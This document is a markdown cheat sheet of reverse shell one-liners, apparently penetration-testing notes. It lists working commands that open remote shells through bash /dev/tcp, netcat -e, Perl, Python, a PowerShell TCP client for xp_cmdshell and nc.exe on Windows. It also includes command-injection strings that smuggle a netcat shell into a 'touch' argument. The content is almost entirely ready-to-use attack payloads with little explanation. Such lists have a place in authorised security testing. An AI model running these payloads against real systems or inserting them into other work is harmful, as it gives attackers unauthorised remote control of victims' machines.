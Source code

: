 # Reverse shell scripts

## Proper working reverse shell
```
CTRL + Z -> It will run the session in the background
stty raw -echo
fg
fg
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Using Netcat
```
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  
```

## Using Perl
```
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

## Command injection reverse shell
```
touch ; nc 10.10.14.52 5555 -e /bin/bash
touch '; nc 10.10.14.52 5555 -e /bin/bash'
```

### Powershell Oneliner
For xp_cmdshell (bypassing single quote restricion by including one more single quote)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.1.1.1'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

### Upload nc.exe to windows machine and obtain reverse shell

```
nc.exe 10.10.14.6 4444 -e cmd.exe
```
